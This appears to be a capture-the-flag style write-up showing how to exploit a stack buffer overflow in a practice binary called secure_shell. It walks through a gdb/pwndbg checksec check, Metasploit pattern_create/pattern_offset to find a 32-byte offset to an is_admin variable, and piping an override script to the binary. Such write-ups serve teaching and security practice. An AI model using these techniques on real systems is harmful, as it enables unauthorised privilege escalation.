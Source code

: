 ### Identification

Run the application and see that it asks for user input:
```
$ ./secure_shell
Please enter secure shell password:
hello
Access denied
user@7ea4c3f8c
```

Let's try piping a large string as user input:

```
$ python3 -c 'print("A" * 64)' | ./secure_shell
Please enter secure shell password:
Access denied
Segmentation fault
```

As it segfaults with large user input values, let's investigate a potential buffer overflow.

### gdb

Run the application with gdb:
```
gdb ./secure_shell
```

Checking the security settings to confirm there's no stack canaries:

```
pwndbg> checksec
[*] '/home/user/app/secure_shell'
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

We can also use `info file` to see more about the file type, elf32-i386.
We could also have used `file` on the binary to see the similar information:
```
$ file ./secure_shell
./secure_shell: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV),
dynamically linked, interpreter /lib/ld-linux.so.2,
BuildID[sha1]=72f83d4b511b8241034ad220114c516414fbbefc,
for GNU/Linux 3.2.0, with debug_info, not stripped
```


We can see the available functions in the binary by examining the symbol table:
```
$ info functions
```

We can either explicitly put a breakpoint in main and run:
```
b *main
run
```

Or just use the `start` command.

### Calculating buffer size

If we didn't know the buffer size we can create an arbitrary length value:

```
ruby  ./tools/exploit/pattern_create.rb -l 50
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
```

Find the value of admin:
```
p/x is_admin
$6 = 0x31624130
```

Find the buffer size:
```
ruby  ./tools/exploit/pattern_offset.rb -l 50 -q 0x31624130
[*] Exact match at offset 32
```

So we can write 32 characters before hitting the `is_admin` value in the stack.

### Final

Remember to keep stdin open:
```
(python3 override.py; echo ''; cat) | ./secure_shell
```
